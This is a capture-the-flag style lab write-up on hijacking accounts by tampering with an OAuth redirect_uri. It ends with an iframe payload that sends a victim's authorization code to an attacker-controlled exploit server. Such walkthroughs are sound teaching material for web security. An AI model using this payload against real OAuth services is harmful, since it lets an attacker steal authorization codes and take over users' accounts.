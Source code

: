 # OAuth account hijacking via redirect_uri
# Objective
This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

|![](Images/image-11.png)|
|:--:| 
| *OAuth exchange - standard redirect_uri* |


## Exploitation
Modification of `redirect_uri` value in initial OAuth request result in browser making request to provided domain with authorization code. If users opens provided payload, it will complete OAuth process and send authorization code to attacker domain.

|![](Images/image-12.png)|
|:--:| 
| *Test - Modification of redirect_uri* |
![](Images/image-13.png)|
| *Test - Request to exploit server with authorization code* |
![](Images/image-14.png)|
| *Exploit server configuration* |
![](Images/image-15.png)|
| *Account hijacking - victim's authorization code* |
![](Images/image-16.png)|
| *Account hijacking - Using stolen authorization code* |
![](Images/image-17.png)|
| *Deletion of user carlos* |

Exploit server configuration:
```html
<iframe src="https://oauth-0af1005a046c9e42830912c3024200bc.oauth-server.net/auth?client_id=myca7uz04ok1nk1jmjr4n&redirect_uri=https://exploit-0ad400e2049c9e4c83ed1363013900c1.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```